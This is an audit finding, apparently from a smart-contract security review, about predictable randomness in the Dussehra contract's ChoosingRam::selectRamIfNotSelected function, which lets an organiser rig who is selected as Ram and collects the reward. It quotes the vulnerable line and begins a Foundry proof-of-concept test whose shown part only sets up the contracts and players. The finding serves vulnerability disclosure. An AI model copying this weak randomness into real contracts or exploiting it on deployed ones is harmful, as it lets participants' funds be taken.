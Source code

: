 ### Relevant GitHub Links

https://github.com/Cyfrin/2024-06-Dussehra/blob/9c86e1b09ed9516bfbb3851c145929806da75d87/src/ChoosingRam.sol#L83

https://github.com/Cyfrin/2024-06-Dussehra/blob/9c86e1b09ed9516bfbb3851c145929806da75d87/src/ChoosingRam.sol#L90

## Summary

The function `ChoosingRam::selectRamIfNotSelected` depends on a random value to select the participant to be selected as Ram. This function generates the random number by using `block.timestamp` and `block.prevrandao` values. Those values are considered a bad source of randomness. The organiser can predict the outcome and execute the function only if the desired user will become Ram. The selected Ram will take the reward.

## Vulnerability Details

Using `block.timestamp` as a source of randomness is commonly advised against, as the outcome can be manipulated by calling contracts. Also, for some chains like zkSync `block.prevrandao` is a [constant value](https://docs.zksync.io/build/developer-reference/ethereum-differences/evm-instructions#difficulty-prevrandao). This will allow the users to predict the result of the calculated number in [Line 90](https://github.com/Cyfrin/2024-06-Dussehra/blob/9c86e1b09ed9516bfbb3851c145929806da75d87/src/ChoosingRam.sol#L90) of `ChoosingRam.sol`: `uint256 random = uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao))) % ramNFT.tokenCounter();`. This will give the organiser the opportunity to break the random selection of the Ram and to select a specific user who will collect the reward.

## Proof of Concept

The following code demonstrates how an attack can be executed.

```js
function test_ramSelectionIsNotRandom() public {
    Dussehra dussehra;
    RamNFT ramNFT;
    ChoosingRam choosingRam;
    address organiser = makeAddr("organiser");
    address player1 = makeAddr("player1");
    address player2 = makeAddr("player2");
    address player3 = makeAddr("player3");

    vm.startPrank(organiser);
    ramNFT = new RamNFT();
    choosingRam = new ChoosingRam(address(ramNFT));
    dussehra = new Dussehra(1 ether, address(choosingRam), address(ramNFT));
    ramNFT.setChoosingRamContract(address(choosingRam));
    vm.stopPrank();

    vm.startPrank(player1);
    vm.deal(player1, 1 ether);
    dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
    vm.stopPrank();

    vm.startPrank(player2);
    vm.deal(player2, 1 ether);
    dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
    vm.stopPrank();

    vm.startPrank(player3);
    vm.deal(player3, 1 ether);
    dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
    vm.stopPrank();

```